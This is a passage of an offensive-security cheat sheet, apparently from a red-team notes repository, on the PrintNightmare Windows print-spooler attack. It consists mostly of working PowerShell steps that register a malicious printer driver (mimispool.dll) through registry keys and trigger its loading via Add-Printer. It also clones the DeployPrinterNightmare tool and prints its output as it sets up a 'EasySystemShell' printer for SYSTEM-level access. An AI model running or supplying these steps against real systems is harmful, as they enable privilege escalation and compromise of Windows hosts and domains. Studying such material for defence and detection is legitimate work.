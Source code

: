 ```ps1
New-Item         -Path ($RegStartPrinter + '\CopyFiles\Litchi') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Directory' -PropertyType 'String'      -Value 'W32X86\3'        | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Files'     -PropertyType 'MultiString' -Value ('mimispool.dll') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Module'    -PropertyType 'String'      -Value 'mscms.dll'       | Out-Null
New-Item         -Path ($RegStartPrinter + '\CopyFiles\Mango')  | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Directory' -PropertyType 'String'      -Value $null             | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Files'     -PropertyType 'MultiString' -Value $null             | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Module'    -PropertyType 'String'      -Value 'mimispool.dll'   | Out-Null
```

Execute the driver

```ps1
$serverName  = 'dc.purple.lab'
$printerName = 'Universal Priv Printer'
$fullprinterName = '\\' + $serverName + '\' + $printerName + ' - ' + $(If ([System.Environment]::Is64BitOperatingSystem) {'x64'} Else {'x86'})
Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue
Add-Printer -ConnectionName $fullprinterName
```

#### PrinterNightmare

```ps1
git clone https://github.com/Flangvik/DeployPrinterNightmare
PS C:\adversary> FakePrinter.exe 32mimispool.dll 64mimispool.dll EasySystemShell
[<3] @Flangvik - TrustedSec
[+] Copying C:\Windows\system32\mscms.dll to C:\Windows\system32\6cfbaf26f4c64131896df8a522546e9c.dll
[+] Copying 64mimispool.dll to C:\Windows\system32\spool\drivers\x64\3\6cfbaf26f4c64131896df8a522546e9c.dll
[+] Copying 32mimispool.dll to C:\Windows\system32\spool\drivers\W32X86\3\6cfbaf26f4c64131896df8a522546e9c.dll
[+] Adding printer driver => Generic / Text Only!
[+] Adding printer => EasySystemShell!
[+] Setting 64-bit Registry key
[+] Setting 32-bit Registry key
[+] Setting '*' Registry key
```

```ps1
PS C:\target> $serverName  = 'printer-installed-host'
PS C:\target> $printerName = 'EasySystemShell'
PS C:\target> $fullprinterName = '\\' + $serverName + '\' + $printerName + ' - ' + $(If ([System.Environment]::Is64BitOperatingSystem) {'x64'} Else {'x86'})
PS C:\target> Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue
PS C:\target> Add-Printer -ConnectionName $fullprinterName
```
